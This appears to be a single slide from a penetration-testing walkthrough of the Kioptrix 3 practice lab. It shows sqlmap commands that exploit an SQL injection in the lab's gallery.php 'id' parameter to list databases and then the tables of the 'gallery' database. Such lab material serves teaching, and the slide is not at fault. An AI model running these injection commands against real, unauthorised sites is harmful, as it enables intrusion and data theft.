

USING SQLMAP
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=photoid#photos" -p id --dbs

So there’s an injection vulnerability. AND I get some database names AND I WANT TO GET SOME TABLE NAMES.
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=photoid#photos" -p id -D gallery --tables